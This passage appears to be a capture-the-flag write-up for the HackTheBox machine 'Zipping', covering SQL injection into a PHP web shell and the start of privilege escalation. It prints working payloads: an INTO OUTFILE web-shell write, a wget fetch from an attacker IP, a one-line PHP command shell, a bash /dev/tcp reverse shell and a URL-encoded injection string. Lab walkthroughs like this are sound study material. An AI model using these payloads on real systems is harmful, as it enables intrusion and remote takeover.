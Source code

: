 `select '<?php system(''wget http://10.10.14.20/rcea.php''); ?>' INTO OUTFILE '/var/lib/mysql/shel.php%00';`
(upload webshell or RCE)

### rcea.php file
<?php system($_REQUEST["cmd"]); ?>

to upload the webshell go to `page=/var/lib/mysql/shel` without .php because already appended so you just see blank right?that mean its uploading so to access the webshell at /shop path because u can see the below

![](../../../../images/2024-01-19-15-45-22.png)

`http://zipping.htb/shop/rcea.php?cmd=ls` succeed rce so now we just revshell

so now create file bash for revshell

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.20/1337 0>&1
```

![](../../../../images/2024-01-19-15-50-37.png)

&nbsp;

<a id="item-four"></a>
# SQL Injection (Manual)

![](../../../../images/2024-01-19-15-57-05.png)
&nbsp;




Look at the time that means sqli time based so lets upload shell using into outfile
&nbsp;


 



![](../../../../images/2024-01-19-16-09-07.png)


i uploaded shell from sql injection and i got rce `%0A%0D';SELECT+'<%3fphp+system($_REQUEST["cmd"])%3b+%3f>'+INTO+OUTFILE+'/var/lib/mysql/sh.php'%3b+--+-0 ` here the payload url encoded


<a id="item-five"></a>
# Privilege Escalation

sudo -l 

```
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```
